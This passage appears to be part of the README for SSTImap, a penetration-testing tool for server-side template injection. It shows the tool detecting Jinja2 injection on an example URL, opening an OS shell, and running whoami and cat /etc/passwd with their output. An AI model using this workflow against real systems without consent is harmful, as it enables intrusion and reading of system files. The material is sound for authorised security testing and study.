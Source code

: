 Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./sstimap.py -u https://example.com/page?name=John --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║ _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ whoami
root
posix-linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/